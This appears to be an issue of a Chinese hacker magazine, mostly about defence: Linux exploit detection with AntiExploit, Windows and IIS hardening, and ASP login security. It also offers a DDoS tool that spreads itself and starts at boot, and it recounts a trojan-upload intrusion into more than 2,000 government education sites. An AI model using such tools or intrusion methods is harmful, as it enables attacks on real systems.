- **图标修改器：** 很方便实用，可以把 EXE 的图标修改成你喜欢的图标。
- **DDoS 工具：** 配置此服务端后，直接运行。可进行批量种植，通过写入注册表启动项进行开机启动。

最后，我非常感谢《黑客手册》能给我一个发表的机会。为了表示感谢，奉上黑客手册专版，这些软件都是免费软件，完全没有功能时间上的限制。请勿将其用于非法用途。由本软件引起的任何后果均由使用者本人承担，软件作者概不承担任何责任。如果你发现了 bug，请和我联系，提一下意见，最好说明使用的环境，同时把 winnt\temp\SysEvent.tmp 发给我。谢谢！

【本文介绍的随意门 3.0 和冬日之恋 Z-1，黑客手册专版已收录到本期光盘中】

# 窗外黑客号外

12月，寒冬将至。“窗外”经历了小小的磨难终于又和大家见面。latteye 小呼一声，大家一定不要忘记那些执着奉献的人，他们都是英雄！

VeryCD.com 就是一个充满英雄的社区，大家在享受丰厚资源的同时，记得学习大家的奉献精神哦！

本期“窗外”侧重于防。在 EXP 满天飞的如今，如何防御 Linux 下的 EXP 攻击呢？专业的防火墙太贵，Soho 路由功能太少，有没有经济实用的实现方式呢？Multi Network Firewall 2 让一切变得轻松、简单！

## 索尼防拷贝软件用了开源代码

软件专家表示，索尼-BMG 在一些 CD 光盘上使用的颇受争议的防拷贝软件可能使用了开源代码项目的代码。

该播放软件包含有一个名为 LAME 的开源源代码 MP3 播放器软件项目，芬兰软件编程人员马特尼在一份电子邮件中说，这些 CD 上的多个软件组件都使用了 LAME 开源源码 MP3 播放软件代码。

一名律师表示，如果开源代码被紧密地集成在了一个可执行文件中，整个软件包都将成为开源代码；即便是像 LAME 这样的 MP3 译码代码使用了限制较为宽松的 LGPL 许可代码的项目。

First4Internet、索尼-BMG 都拒绝对这一问题发表评论。索尼-BMG 将它自己称为歌手权益的捍卫者。它在近日声明中称，防拷贝软件是“保护我们和歌手的知识产权的重要工具”。

企鹅 lala：我一直告诉我自己，lala 你这辈子是做不成君子的，所以呢……不做伪君子就可以了。打着保护他人旗号赚钱的同时，又在掠夺别人……索尼这次不好过。

## Linux电话终端标准（LiPS）论坛在京成立

以实施 Linux 电话终端标准化战略为诉求的 Linux 电话终端标准论坛（Linux Phone Standards Forum，LiPS 论坛）日前在京宣告正式成立。LiPS 论坛是世界上第一个由运营商支持的，同时针对移动、固网和融合终端的开源源码标准组织。

论坛力求通过实施软件标准化战略，建立一个基于 Linux 的电话终端软件平台，以此来支撑移动、固网和融合终端设备的发展需求。

LiPS 论坛的成立对于运营商、设备制造商、软件厂商等的意义都是深远的。它不仅提供了消除终端应用兼容性问题的一种解决方案，更创造性地定义了运营商的需求和供应商的技术实现之间的互动模式，开创了运营商推动、贡献、利用开源代码技术的先河。

企鹅 lala：Linux 在电信产业的地位越来越重要，越来越多的手机厂商推出了基于 Linux 系统的手机。此时 LiPS 的成立对于 Linux 在电信业的发展会起到良好的推进作用。

## 广东五年内需120万Linux软件人才

随着政府和国内外企业加大对 Linux 产业的支持，Linux 人才需求激增。记者从省教育厅获悉，由广东省 Linux 公共服务技术支持中心发起的高校 Linux 推进联盟正式宣告成立，中大、华工等 27 家高校成为联盟成员单位。

在 2005-2009 年这五年内，中国 Linux 软件市场将以 43.1% 的年均复合增长率高速增长；2005 年，中国 Linux 软件市场规模将达到 1.43 亿元。

据预计，在未来五年间，我国 Linux 软件人才需求将会超过 120 万。高等院校是 Linux 产业人才的重要培养基地。为了充分整合高校教育资源，响应国家及省的政策，优化我省软件人才结构，在省发改委、教育厅、信息厅的引导下，省 Linux 学习委员会、省 Linux 公共服务技术支持中心和天河软件园的强烈支持下，成立“高校 Linux 推进联盟”。

企鹅 lala：Linux 在各个行业的应用越来越广，熟练应用 Linux 可能会成为未来 IT 界招工的基本要求哦\~\~\~

## IBM明年可能出免费版DB2应对开源产品竞争

据 IBM 公司的一位官员称，IBM 可能在明年发布一款免费版 DB2 数据库软件。

与微软、甲骨文不同，IBM 目前没有发布免费的 DB2 数据库产品。Teo 指出，IBM 现有的入门级 DB2 数据库——DB2 Universal Database Express Edition 不是免费的，但它也有免费的数据库产品：基于 Java 的 Cloudscape 数据库。

企鹅 lala：虽然免费并不等于开源，但确实有很多用户是冲着“免费”奔向开源的。免费并不代表厂商会抛弃经济利益，相反，这是获得市场的一个重要策略。

## 案例QQ广告

如果你用的是 Windows XP 操作系统，利用磁盘读写权限便可将 QQ 广告彻底封杀于无形中，并且还可自定义 QQ 的广告呢。

第一步：腾讯 QQ 一般安装在“C:\Program Files\Tencent\QQ”文件目录中，在资源管理器中打开此目录，首先双击进入“AD”文件夹，按下“Ctrl+A”全选所有文件，再按下“Shift+Delete”彻底删除所有广告。在空白处右击，选择执行“属性”命令。

第二步：单击“安全”标签，在“组或用户名称”中选择用户并点击下方的“删除”按钮，将所有用户删除；或者，将所有用户的权限都设置成“拒绝”；并且单击“高级”按钮，清除勾选“从父项继承那些可以应用到子对象的权限项目，包括那些在此明确定义的项目”，随后会出现“安全”对话框，选择“删除”按钮便可，最后确定退出。

# Linux 下 Exploit 的防范

很多朋友都听说过甚至用过“Exploit”。但什么是“Exploit”？如何防范“Exploit”对系统造成的危害？这是本文所关注的问题。

## 一、什么是 Exploit

Exploit 是什么？Exploit 是一个笼统的概念。Exploit 并不是一种工具，或者某种软件，它是一类方法的总称。简单地说，就是利用系统的漏洞，做自己想做的事情，达到自己设想的目的。

从字面上理解，Exploit 的意思是“开拓、开发”，而在破解圈子里面，公认的概念可能是“漏洞及其利用”。通俗地说，Exploit 就是利用一切可以利用的工具、采用一切可以采用的方法、找到一切可以找到的漏洞，并且通过对漏洞资料的分析研究，从而达到获取网站用户资料文档、添加自定义用户、甚至侵入网站获得管理权限控制整个网站的最终目的。

那么漏洞又是什么东西呢？我们应该知道，所谓网站，不过是由放在服务器上的很多相关程序及文件所组成的。既然是人编写的程序，就不会是无懈可击的，再优秀的程序都会有这样那样的缺陷。而网站的漏洞，则可能是组成网站的程序本身的缺陷造成的，也可能是程序之间的配置缺陷造成的，还有就是网站设计上的缺陷。

## 二、Exploit 的基本过程——扫描、分析、利用

Exploit 的第一步，就是对目标网站进行扫描。可以用我们已知的漏洞列表进行扫描，看看对方有没有我们列表中的漏洞。也可以用一些专门的软件，扫描目标的其它相关信息，包括网站使用的操作系统版本、提供的服务以及开放的端口，等等。没有什么最好的扫描工具，每种扫描工具都有它的优点和缺点，能够扫出的结果也不一样。所以，你需要掌握尽可能多的扫描工具，根据不同的目标、不同的目的，选择合适的扫描工具。

Exploit 的第二步，就是对扫描获得的信息进行分析研究，从而找出漏洞所在以及利用的方法。这是最困难的过程，也是对你的相关知识的考验。我们扫描获得的信息可能是多种多样的，不同的信息需要不同的知识来分析。

Exploit 的第三步，如果我们通过分析已经找到漏洞以及利用的方法，就可以选用相应的工具，完成我们的最终目的——拿到密码文件、添加用户、获得管理员权限，等等。

## 三、Linux 下 Exploit 防范

既然 Exploit 是利用系统的漏洞或者缺陷而进行渗透和攻击的，那我们必定能想到在 Linux 下防范 Exploit 攻击的方法。加固系统的安全性无疑是一个巨大的工程，需要投入大量的人力物力财力。Linux 防范 Exploit 攻击最有效的方法是使用 AntiExploit 这个安全软件来监视 Linux 系统的运行安全，及时地发现并阻止黑客的 Exploit 攻击行为。

AntiExploit 是一款优秀的开源软件，它是目前 Linux、FreeBSD 操作系统下的第一款调试反 Exploit 的扫描软件。AntiExploit 可以帮助系统管理员鉴别本地系统是否遭到已知的非法工具的入侵。AntiExploit 使用 dazuko（Dazuko 是 Linux 下的一个实时杀毒模块，结合杀毒软件可以对文件系统进行实时防毒）、内核模块和 MD5 校验，可以判断系统中是谁创建了“恶意”文件，是谁正在使用这些恶意文件，并通过内核监控系统中的文件系统调用。这样，结合以上两个手段，系统管理员就能很快知道系统中那些恶意文件的所有者了，从而能迅速发现入侵者的 Exploit 行为。

AntiExploit 由 PERL 语言编写，当 AntiExploit 扫描 Linux 系统时，AntiExploit 把扫描的文件和 MD5-DATABASE 数据库进行特征对比，从而鉴别该文件是否合法。这个 MD5-DATABASE 数据库就像杀毒软件的病毒库一样，是不断更新的。

和其他的 Linux 下的安全工具一样，AntiExploit 也不可能百分之百地保证 Linux 系统的安全，但 AntiExploit 对于 Linux 服务器的安全确实能起到一定的防护作用，特别是对于一些菜鸟黑客、Cracker 的攻击效果十分显著。这些水平较低的入侵者往往是通过已经公布的 Exploit-codes 和明显的系统漏洞来进攻 Linux 操作系统的，所以在 Linux 操作系统中启用 AntiExploit 对系统进行监控是较为可靠的选择。

### 1. AntiExploit 的安装

安装使用 AntiExploit 之前应确保 Linux 中已经安装有如下组件：

- mailutils
- libxml2
- libcurl >= 7.10

小知识：mailutils 软件包是一个邮件工具集，包括本地和远程邮箱访问服务。

```
下载最新版本的 AntiExploit 压缩包（http://www.h07.org/?q=node/36）

tar -xzvf AntiExploit-1.36b.tar.gz
编译和安装 dazuko：
./configure
make
根据实际需要编辑 etc/aexpl.conf，以适应本地操作系统：
make install
升级 exploit-database 数据库（aexpl -u <aexpl.conf 的路径>）
运行 aexpl（aexpl -c <aexpl.conf 的路径>）
```

小提示：AntiExploit-1.36b.tar.gz 压缩包里已经含有 dazuko 的安装包，网上有很多安装教程，限于篇幅这里不再详述。dazuko 的官方网站为 http://www.dazuko.org/

### 2. AntiExploit 配置

这里只介绍那些必须要配置的参数，可选参数的配置默认即可，无需修改。

- 1) 分析配置
  - 编译 analyze/Exploit.db（必要）  
    需指定 Exploit.db 数据库在 Linux 的路径。我们可以将 Exploit.db 数据库放到 /etc 目录下。我们可以使用 -u 参数在 /etc 目录中创建或升级 /etc/Exploit.db 数据库。
  - 编译 analyze/update_url（必要）  
    指定 Exploit.db 数据库在线升级 URL。我们可以将 URL 设置为 http://www.h07.org/Exploit.db，这个数据库每晚 8 点会升级。

# 2月 百兆黑客营

## （3）编辑 analyze/version_url（必要）

指定最新版的 AntiExploit 的 URL 路径，我们可以将 URL 设置为 `http://www.h07.org/aexpl.version`。

## （2）生成报告配置

- 1. 编辑 reports/mail_addr（必要）
- 2. 编辑 reports/facility（必要）

在 mail_addr 中填入接收报告的电子邮件地址，当 AntiExploit 发现系统异常时，形成报告自动邮寄到系统管理员指定的邮箱中。生成 syslog 日志记录，默认参数是 LOG_DAEMON（3<<3）=24，建议采用默认值。

## （3）核心设置

- 1. 编辑 core/lock_file（必要）
- 2. 编辑 core/ld_so_conf（必要）
- 3. 编辑 core/inode_size（必要）
- 4. 编辑 core/queue_size（必要）

aexpl 作为 daemon 启动后，pid 需要被锁定，以防误操作再次被启动，默认参数为 `/var/run/aexpl.pid`。aexpl 需要调用共享配置库文件的名称及路径，默认参数为：`/etc/ld.so.conf`。当 aexpl 分析某个文件时会记录在表中，避免重复扫描，表默认大小为 2048，可按需修改。queue_size 默认 102400。

## （4）代理设置

- 1. 编辑 /proxy/enabled
- 2. 编辑 /proxy/type
- 3. 编辑 /proxy/host
- 4. 编辑 /proxy/login

是否启动代理支持，可填入 true 或者 false。代理类型支持 http、socks4 或 socks5。主机端口格式为 `hostname:port`。登录格式为 `username:password`。

### 3. 数据库格式

除了通过网站更新 Exploit.db 外，还可以手动修改数据库并升级：`aexpl -u /etc/aexpl.conf`。数据库每行由两部分组成：文件 MD5 校验值与原始文件名，使用冒号分隔。

```text
f4e23c9093f9a69bd8d28db2581ac1:wicked_exploit.c
44854c8002254354749342813f95b80f:hotmail.iax.txt
7f6c913653161373d6ebfd865d530428:Mailv5.txt
7a7fed2e4c3e31ab0e558e5811e33743:ie5.cross-frame.txt
```

### 4. 实战应用 AntiExploit

```bash
$ aexpl -c /etc/aexpl.conf
Detaching, please check the log file to see if everything was ok!
```

```text
$ tail /var/log/aexpl
Sun Aug  1 18:19:32 2004 <info> Starting initialization.
Sun Aug  1 18:19:32 2004 <info> Exploit database loaded with 3657 entries.
Sun Aug  1 18:19:32 2004 <info> Successfully registered with dazuko.
Sun Aug  1 18:19:32 2004 <info> Initialization complete.
Sun Aug  1 18:19:32 2004 <info> antiExploit started.
Sun Aug  1 18:19:32 2004 <info> Worker thread woken up.
```

我们可以在线下载一个名为 `linksys-dhcp-exploit.c` 的文件进行测试。

```bash
$ wget http://www.packetstormsecurity.nl/0405-exploits/linksys-dhcp-exploit.c
...
'linksys-dhcp-exploit.c' saved
```

```text
$ tail /var/log/aexpl
...
<alert> AntiExploit found a suspicious file:
/home/phantom/linksys-dhcp-exploit.c
```

```text
To: phantom@ph-mobile.h07.org
Subject: antiExploit Report for ph-mobile.h07.org
From: Enrico <phantom@ph-mobile.h07.org>
Date: Sun, 01 Aug 2004 18:22:07 +0200

antiExploit Alert!
File: /home/phantom/linksys-dhcp-exploit.c
User: 1000 (phantom)
Group: 1000 (users)
```

> 在黑客手中的地位也是重中之重。虽然 Linux 下 EXP 出现的几率比 MS 小一些，但还是防患于未然比较好啊。


> “三分钟轻松掌控中国教育部旗下2000多网站”说出来都吓死你呀，预知详情请立刻阅读相关文章。空气估计不会关心这事，只顾每天对论坛补来补去的，都快成神补了！估计看了本期的《ASP安全？虚拟主机一样精彩！》又要补上一番，向你致敬，偶在精神上支持你！再看看《黑客徒手大封杀》和《程序防范新方法》，还不玩死入侵者？而“忠实”的 IE 用户们不想被黑就一定要有《利用 IE 参数来防黑》，你黑它归它但不要忽视病毒的存在啊，我就去论坛等你们光顾 nohack 的“反毒先锋”版块了。

## 从轻松掌控中国教育部旗下2000多网站想到的安全防范

李嘉义

- 从本文你可以学到：
- 1. 网络安全意识与网络安全
- 2. 如何合理配置权限和访问控制
- 3. 配置服务器的安全点滴

## 一、不足三分钟的战斗

上传，又见上传……一个老得不能再老的漏洞，又一次出现在一个相当重要的服务器中……难道真的思想麻痹够好了？击中要害的瞬间只要几十秒……整个过程也不足三分钟……（后文讲述在教育类网站中发现上传页面、测试上传 ASP 木马、获取返回文件名并进一步利用的过程）。


```text
（图2）提示ASP上传成功页面的源代码片段，包含上传后返回文件名信息。
```

利用获得的文件名替换 upload.htm 在 IE 地址输入试一下，显示“无法找到网页”。显然返回的只是上传文件名并非完整路径。随后推测常见保存目录 upload 并尝试访问，木马登录界面出现。进一步通过权限配置不当获取更多信息，查看 FTP 与服务器信息后发现大量账户与敏感数据。


## 二、网络安全意识与网络安全

网络安全是一个永远讲不完的话题。文中指出，很多人的安全意识仍停留在早期阶段，以为改密码、打补丁、装杀软和防火墙就足够。实际上安全是“物理硬件+软件配置+安全服务”的整体，尤其管理员更应加强安全意识。案例中提到 Serv-U 版本长期未升级、旧漏洞长期存在，反映出管理层面的缺陷。结论是：意识是安全第一步，权限与服务管理缺失会直接放大风险。

## 三、权限、访问控制——永不可忽视的话题

权限是针对不同用户行为进行授权或限制。若系统分组、分用户后仍给默认“Everyone 完全控制”等高权限，服务器被入侵后损失将被放大。若事先进行安全权限配置，即便 ASP 木马上传成功，攻击者可控制的信息范围也会受限，意外损失可明显降低。

服务器的权限没有限制造成服务器所有信息泄漏（如图4、图5）。那么哪些地方需要通过权限进行访问控制呢？一般来讲，作为 Web 应用服务器，利用 NTFS 访问控制列表进行访问权限控制和 IIS 身份验证相结合是必须要做的一步。对现行网络中数以亿计的 Web 服务器，只要有公开的 Web 页，从某种意义上讲，任何外部用户都可以进入这台服务器，并且具备最基本的读取权限。如果因为服务器的权限配置不当，并且 Web 程序上存在漏洞，那么这台服务器就存在被外部用户利用“被控制”的可能。所以第一步，我们要删除 NTFS 访问控制列表中所有的 Everyone 的完全控制权限（如图6），点击删除键将 Everyone 从列表中删除，让 Everyone 从服务器各个分区里消失，我们再根据实际需要分配不同的权限。

（图4中的磁盘分区信息表）


如果你想设定得更 BT 一些，可以只留下你用于管理的 administrators 组的用户，将访问控制列表中其它的用户全部删除，再根据需要添加。比如：Serv-U FTP 权限默认是以 system 系统账户运行（如图7）。要想使 FTP 在相应授权的目录可以访问，就需要在 NTFS 访问控制列表中再添加上 system 的相应权限（如图8）。如果在服务管理里将 Serv-U 更改为本地系统内其它账户运行，比如新建的 cnsu（如图9），那么就在授权目录里的访问控制列表里，像添加 system 一样把 cnsu 这个账户添加进去，并授予相应的权限。这个账户最好由这个服务单独使用，如果同一个账户被多个服务共同使用，其安全性会大打折扣，也不利于权限控制管理。


作为网站应用服务器来讲，网站的访问控制权限更显得重要。除了用 NTFS 访问控制列表来管理外，IIS 内置的身份验证，如果很好地与访问控制列表结合，将为网站的安全性起到非常大的作用。当目录安全性的身份验证设为 cn90 用户时，那么所对应的网站来访都会以 cn90 这个账户访问目录，此时这个目录的 NTFS 访问控制列表内如果没有 cn90 这个账户，将无法访问到网站的内容，也就是被服务器拒绝访问了（如图10）。所以要想正常地访问这个目录内的网站，就需要在访问控制列表内将此账户添加进去。另外需注意的是网站的数据库权限问题和 `%systemroot%` 目录内的插件和相关控件的权限问题。经常发现有的朋友在设置了 IIS 身份验证和 NTFS 访问控制列表后，网站还是不能正常访问。原因就是因为访问控制时的权限只是有读和运行的权限，没有写和修改的权限，这本身没有什么错。但数据库那个文件你一定要单独加入写的权限，不然数据库无法写入，当然不能正常使用了。另一个就是 `%systemroot%` 目录只留管理员和系统权限后，由于网站浏览者采用身份验证设定的匿名账户访问，而 `%systemroot%` 目录的 NTFS 没有它的访问权限，所以造成没有权限调用 ASP 或其它的一些控件，而引起不能正常浏览，所以要找到相关路径并给予对应的权限。如果网站要运行 aspx 程序，还应加上 users 的读权限，不然 aspx 会无法运行。

关于权限，如果装有 SQL Server，那么它本身的权限控制与系统的权限也需要进行很好的结合。还有诸如其它的权限设置等等此文我就不一一举例了，以后的文章可能会针对某一方面深入地讨论。总之权限和访问控制是我们服务器安全要首先考虑和重视的问题。

## 四、细节的魅力——配置服务器安全点滴

谁将系统做得更细，那么安全性也会相应提高。经常出现很多系统的大方面做得很好，一些小地方却不注意，造成系统被入侵，真是百密一疏。但注意细节的前提是对系统要非常熟悉，不然不知道从哪里下手也没用。下面将对 Windows 系统的服务器配置常见安全方面细节列举出来，供大家参考。

### 1. 系统安装前的考虑

在作服务器之前就应该想好需要什么。根据需要安装配置合理的系统才是明智的选择。如果你仅是需要 ASP 或 .NET 程序，那么 Windows Server 2003 与自带的 IIS 6.0 相结合，再进行正确的配置将是非常安全的。有不少人认为在 2003 上安装 Apache 比较好，但我个人认为 Apache 与 Windows 结合得并不是很好。要是想用 Apache，在 Linux 或 Unix 类的系统上无论是安全还是效率上都会比 Windows 强得多。如果你选定了系统，如 2003（以下配置都以 2003 系统为例），那么就应该把一切打算安装的服务软件或工具提前准备好，还有升级补丁包、防火墙、杀毒等安全工具。所以系统安装前一定要做好一切准备工作。

图10 当目录安全性的身份验证设为 cn90 用户

### 2. 安装系统时要注意的问题

在系统安装时就应该考虑到系统安装后的安全维护问题，所以 NTFS 分区格式是必需的，因为 FAT 和 FAT32 格式的 Windows 系统无法进行访问控制，对系统的安全性是不利的。

### 3. 安装完系统后要注意的问题

很多人在装完系统后，就急着上网升级打补丁等。其实，在装完系统后先不要急着联网，把网线拔掉都没关系，先把服务器上不需要连接网络的安全配置给做一下是明智的。

### 4. 基本的系统配置

- 1. 安装准备好的最新补丁包。
- 2. 建立操作日志，在系统安装后对所有的操作进行详细记录。
- 3. 应用服务的安装与调试。要先安装所需的应用服务，如 web、ftp、mail、database 等。
- 4. 系统账户的安全管理。可以采用禁用 guest 等所有无用的账户，给系统管理员 administrator 改名，新增备用管理员，普通账户分组管理，设强密码，定期更换密码等措施加强账户安全。
- 5. 安全访问控制列表与应用服务的结合。对于重要目录（如 `%allusersprofile%\..`）重新设置访问控制，设置后对应用服务进行测试。
- 6. 将重要的可执行文件的访问作限制。将 `%windir%` 目录下的 `regedit.exe` 和 `%windir%\system32` 目录下的 `at.exe`、`attrib.exe`、`cacls.exe`、`cmd.exe`、`netstat.exe`、`tftp.exe` 访问控制列表设为只允许 administrators 组内管理员访问。
- 7. 禁用不必要的组件：对于 FSO、shell、WScript 等存在安全隐患的组件，如果不是必需的话，最好禁用掉。可在运行中输入以下命令：

```cmd
RegSvr32 /u %systemroot%\system32\scrrun.dll
RegSvr32 /u %systemroot%\system32\shell32.dll
RegSvr32 /u %systemroot%\system32\wshom.ocx
```

- 8. 出于安全性考虑，以下服务建议关闭：

```text
Remote Registry
Workstation
Alerter
Computer Browser
Distributed File System
Messenger
Net Logon
Remote Procedure Call (RPC) Locator
Server
```

对于服务器来讲，不是必需的服务我们都应该禁用掉，如：TCP/IP NetBIOS Helper、Telephony、Telnet、Windows Time、Automatic Updates、Print Spooler 等，自行参考前述条款把不必要的禁用。

- 9. 修改远程终端的默认连接端口。方法如下：修改 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\Tds\tcp` 的 `PortNumber` 值，默认是 3389，建议改为如 9999；然后修改 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp` 的 `PortNumber` 值为同样端口，重启后生效。客户端连接时在 IP 后加 `:9999`。
- 10. 在“网络连接”里，把不需要的协议和服务都删掉（如图11），这里只保留基本的 Internet 协议（TCP/IP）就可以了；若需要控制带宽流量和负载均衡，可按需增加 QoS 数据包计划程序和网络负载平衡，不必要的不要装。
- 11. 在 Internet 协议（TCP/IP）的属性-高级选项里禁用 TCP/IP 上的 NetBIOS（如图12）。
- 12. 启用 Windows 2003 自带的防火墙和 TCP/IP 筛选。例如：当服务器不是商业虚拟服务器，也没有 Mail 服务，那么只打开 80 端口和远程终端（如 9999）即可。若有其它服务需开放端口，再在防火墙和 TCP/IP 筛选里增加即可。


图11 删除不需要的协议和服务


图12 禁用 TCP/IP 上的 NetBIOS


图13 启用自带的防火墙

## OFFICE38 线上安全专研


图14 启用 TCP/IP 筛选


图15 只打开 80 端口和远程终端

FTP 的工作方式分为主动式 PORT 和被动式 PASV 两种，现在我以 PASV 模式为例。在连接的过程中，客户端向服务器端口（默认为 21）发送连接请求，服务器接受连接并建立一条命令链路（所以此时防火墙和 TCP/IP 里应把 21 端口打开）。当需要传输数据时，服务器将在命令链路上用 PASV 命令告诉客户端：“我打开了 XXX 端口，你过来连接我。”于是客户端向服务器的 XXX 端口发送连接请求，建立一条数据链路来传送数据。一般来讲 PASV 模式的端口是在 1024~65535 端口范围间随机生成的。这样范围太大，不利于安全管理，所以我们要在 Serv-U 软件中的“设置→高级→PASV 端口范围”里设定你需要的范围。我这里以 5001~5005 为例来限制 PASV 的端口范围（如图16）。


图16 限制 PASV 的端口范围

软件里做完了限制，千万不要忘了在防火墙和 TCP/IP 筛选里把 PASV 监听的端口和 FTP 连接端口打开（如图17、图18）。


图17 打开 FTP 连接端口 5005


图18 加端口 5005

- （13）关于 IIS 的安全配置：
- 1. 删除默认目录 `%SystemDrive%\Inetpub`。
- 2. 然后删除不必要的映射，见图19。
- 3. 在调试选项里将默认的 ASP 错误消息改为自定义的信息（如图20）。
- 4. IIS 的身份验证与 NTFS 的目录访问控制列表一定结合好，否则会造成网站无法正常浏览（如图21）。


图19 删除不需要的映射

- （14）设置安全策略：
- 1. 开启密码策略。
- 2. 开启账户锁定策略。
- 3. 开启审核策略。

## 后记

至于中国的网络安全现状一直是我担心的话题，仅仅是利用一个小小的上传漏洞就轻松掌控中国教育部旗下全国各地区高校的网站 2000 多家。如果管理员们的安全意识能多一些，这些都是完全可以避免的。而现在新入安全界、学习黑客技术的朋友们，很多是盲目地使用别人发现的漏洞或开发的工具进行攻击，甚至有些掌握一点黑客技术的朋友们也在互相攻击，而对系统安全知识却了解不足。黑客技术犹如艺术一样，是攻击与防守的结合，是思想性、艺术性、科学性的综合体现。但愿我们更多的人去关注、去掌握黑客技术，去做那网络中的侠客！由于篇幅考虑将一些不是关键的地方给省略了，如果对此文有什么疑问或实际遇到的问题未能解决，请到 www.nohack.cn/bbs 里讨论。


图20 出错时显示的错误消息


图21 身份验证与账号名要一致

> 编辑点评：虽然文中提到的漏洞是众所周知的，但是存在这样漏洞的网站实在太多，中国教育部的这么多网站存在这样的漏洞值得有关部门重视了。本文的重点是告诉大家如何合理设置自己的系统安全，“没有绝对的安全，只有相对的安全”这句话就是在告诉我们，在攻击与防守方面只有不断地学习才能提高，才能赢得胜利。要持续地“牛刀下去”，打江山容易守江山难。

# ASP 安全？虚拟主机一样精彩！

浪心

从本文你可以学到：

- 通过软件得到 Cookies。
- 对 Cookies 的 MD5 加密方法。
- 新方法防止恶意 Cookies 的攻击。

最近疯狂研究脚本一类的东西，这里将自己的研究结果和大家共享，希望大家能喜欢，最好能从中得到启发。

## 一、普遍的问题：明码传送

看了大多数网站，大部分都存在这样那样的问题，这里我就给大家说一下。当注入、Cookies 欺骗成了主要问题的时候，大家往往忽略了嗅探。这才是实用的技术。与你在公共场所上网一样，一切账号密码都有可能被盗。作为虚拟主机的用户，如何能不使用控件做到加密传送的目的？这是我们讨论的重点。

**Discuz! 论坛**  
如图1所示，大家看到方框中的密码未做任何加密，说起来就很可怕。Discuz! 论坛是国内公认的高安全论坛。


**动网**  
如图2所示，方框中的也是明文。面对这样的一种状态，国内大部分论坛都存在这样的不安全隐患。

**建设银行**  
虽然传送方式不一样，但是很明显，已经解决了明文传送的问题（如图3）。


我们要解决的就是如何采用虚拟主机，不安装控件，靠脚本来实现加密。

下面我们用 VBS 脚本来实现它的加密传送。大概的思路是：先获得密码框的内容，做一下 MD5 加密再传送。我们先用 VBS 来写个 16 位加密的 MD5 函数，代码请浏览光盘中的 **VBSMD5.TXT**。然后，我们简单介绍一下表单（如图4）。

```html
<form method="post" action="...">
账号：<input type="text" name="username">
密码：<input type="password" name="password">
<input type="button" name="Button2" value="登录">
</form>

<script for="Button2" event="onClick" language="VBScript">
'如果登录按钮被按下
Dim TheForm
Set TheForm = Document.forms("form2")
TheForm.password.Value = md5(TheForm.password.Value)
TheForm.Submit
</script>
```


好了，我们再来监听一下结果（如图5）。


大家看到了，在这里密码的传送我们做了一次 MD5 加密。这只是安全的第一步，下面进入第二个主题：严格检测提交方式。

## 二、严格限制提交方式

我们知道，很多探测脚本注射的软件都支持 POST 这一提交方式。

我们介绍一下 Request.ServerVariables（Server Environment Variable）环境变量的集合。它允许读取 HTTP 头。你可以通过使用 `HTTP_` 前缀获取任何头信息。比如：`HTTP_USER_AGENT` 接受客户端代理 HTTP 头（浏览器类型）。除此之外，你还可以使用下表所示的变量获得任何环境信息。`REQUEST_METHOD` 指提出请求的方法，比如 GET、HEAD、POST 等等。

OK，我们要做的就是使用 `REQUEST_METHOD` 来探测提交的类型是 POST 还是 GET。我们写个 ASP 脚本（命名为 text.asp，如图6）。

```asp
<%
If Request.ServerVariables("REQUEST_METHOD") = "POST" Then
  Response.Write "你试图使用 POST 提交数据!"
ElseIf Request.ServerVariables("REQUEST_METHOD") = "GET" Then
  Response.Write "你试图使用 GET 提交数据!"
End If
%>
```

> 图6 text.asp 文件的代码


> 图10 以 POST 形式访问


> 图11 以 GET 形式访问

```asp
<%
strReferer = Request.ServerVariables("HTTP_REFERER")
strHostName = "www.nohack.cn"  '判断是否本站提交地址
If InStr(strReferer, Trim(strHostName)) = 0 Then
  Response.Write "非法操作"
  Response.End
End If
%>
```

> 图12 防止跨站提交的代码


> 图7 选择 Microsoft Internet Transfer Control 6.0 控件

下面我们就要用 VB 写个程序来模拟这两种提交方式。建立一个工程，Ctrl+T 呼唤出部件窗体，点上 Microsoft Internet Transfer Control 6.0（如图7）。依次添加标签、文本、按钮等控件，名称都默认不变，调整其位置（如图8）。添加下列代码（如图9）。


> 图8 添加各个控件

```vb
Private IX As String

Private Sub Command1_Click()
  Inet1.Execute Text1.Text, IX
End Sub

Private Sub Inet1_StateChanged(ByVal State As Integer)
  On Error Resume Next
  Dim Stemp As String
  If State = 12 Then
    Stemp = Inet1.GetChunk(1024)
    DoEvents
    While Stemp <> ""
      ReString = ReString + Stemp
      DoEvents
      Stemp = Inet1.GetChunk(1024)
    Wend
    Text2.Text = ReString
    Inet1.Cancel
  End If
End Sub

Private Sub Option1_Click()
  IX = "post"
End Sub

Private Sub Option2_Click()
  IX = "get"
End Sub
```

> 图9 输入相关代码

## 三、我的 Cookies 你拿去

Cookies 欺骗已经是个很严峻的问题……我们发掘脚本安全的本身，是否也应该改变一下 Cookies 的算法，让那些人即使拿了 Cookies 也是白搭呢？

第一次登录后生成一个随机密钥，写入用户数据库，然后整合日期、IP、系统用户信息，做一次不可逆加密。这样即使获得了 Cookies 加密值，也很难跨站提交。

```asp
'（调用 MD5 的登录代码，含读取用户、生成并校验加密 cookie、写入/验证 cookies 的逻辑）
```

> 图13 调用了 MD5 的登录代码

以上为登录代码，其中调用了 MD5 函数体，网上都可以下载到，大家可以按自己的喜好随便修改（如图13）。大家只要将上面的保存为 1.asp，在每个 ASP 文件的开头输入 `<!--#include file=1.asp-->` 即可。

另外，用户也可以按自己的数据库结构替换上面的查询语句。在这里我们介绍了一些新鲜的东西，希望大家能喜欢。如果你有问题或者新的思路，可以到 www.nohack.cn/bbs 交流。

# 黑客能手大封杀：徒手大封杀

Rain

从本文你可以学到：

- 批处理在安全中的应用。
- 批处理代码的灵活应用。

## 一、前言

计算机安全问题永远都是受人们热切关注的，针对黑客攻击的安全策略也层出不穷，下面我就向大家推荐一种简单但行之有效的解决方案，来保护你们的计算机。这个方法针对的是电脑用户中占绝大多数的家庭用户。对于大多数家庭用户来说，控制台模式（就是通常所说的命令行）应该是很陌生的东西，因为一般的电脑应用根本不需要涉及这些东西；而对于那些想在你的电脑上搞点儿小动作的人来说，控制台模式约等于生命！所以我们的思路就是把命令行封杀，将 cmd.exe 锁定，让它只能为我们所用。要知道黑客要控制你的电脑，基本上都要借助 cmd，大部分的木马和黑客程序也需要用到 cmd，所以这样谁要动你的系统就一定会郁闷了。

## 二、思路

